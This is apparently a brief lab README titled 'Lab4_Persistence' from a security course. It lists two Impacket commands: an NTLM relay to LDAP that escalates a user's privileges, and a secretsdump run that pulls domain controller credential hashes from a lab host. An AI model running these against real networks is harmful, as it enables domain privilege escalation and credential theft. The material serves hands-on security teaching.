 # Lab4_Persistence
- Some command you may need:
    - sudo python ntlmrelayx.py -t ldap://10.0.0.4 --escalate-user \<account\>
    - sudo python secretsdump.py hackcollege/\<account\>:\<passwd\>@10.0.0.4 -just-dc
